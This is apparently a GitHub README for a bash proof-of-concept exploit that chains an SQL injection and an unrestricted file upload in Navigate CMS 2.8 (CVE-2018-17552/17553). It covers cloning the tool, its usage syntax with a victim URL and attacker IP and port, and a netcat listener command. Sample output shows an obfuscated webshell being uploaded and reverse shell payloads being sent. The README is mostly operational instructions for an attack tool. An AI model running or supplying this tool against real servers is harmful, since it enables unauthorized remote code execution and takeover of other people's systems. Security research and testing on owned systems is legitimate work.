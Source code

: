 # Navigate CMS 2.8 Remote Code Execution Exploit

![Security](https://img.shields.io/badge/Security-Exploit-red)
![Platform](https://img.shields.io/badge/Platform-Linux-blue)
![Language](https://img.shields.io/badge/Language-Bash-green)

A proof-of-concept exploit for Navigate CMS 2.8 that demonstrates a remote code execution vulnerability leading to reverse shell access.

## 📖 Overview

This exploit demonstrates CVE 2018-17552 and CVE 2018-17553 vulnerability chain in Navigate CMS version 2.8, featuring:

- **SQL Injection** in authentication mechanism
- **Unrestricted File Upload** vulnerability
- **Remote Code Execution** via obfuscated webshell
- **Multiple Reverse Shell** payload delivery methods

## 📦 Installation

```bash
# Clone the repository
git clone https://github.com/adrianmafandy/Navigate-CMS-RCE.git
cd Navigate-CMS-RCE

# Make the script executable
chmod +x navigate_rce.sh
```
## 🚀 Usage
Basic Syntax:
```bash
./navigate_rce.sh <target_url> <your_ip> <your_port>
```
Example:
```bash
./navigate_rce.sh http://victim.com 192.168.1.100 1337
```
Start a netcat listener before running the exploit:
```bash
nc -lvnp 1337
```
Expected Output:
```bash
 ______
(_____ \
 _____) ) _ _ ____   ____ ___   ____
|  ____/ | | |  _ \ / ___) _ \ / _  |
| |    | | | | | | | |  | |_| ( (_| |
|_|     \___/|_| |_|_|   \___/ \___ |
                              (_____|
   Navigate CMS 2.8 RCE by dr14n

[*] Getting session...
[+] Session: abcdefvckyou
[*] Creating webshell...
[*] Uploading webshell...
[*] Verifying webshell...
[+] Webshell active: http://victim.com/navigate/navigate_info.php
[*] Sending reverse shell payloads...
[+] Reverse shell payloads sent!
[+] Check your listener for connections
```
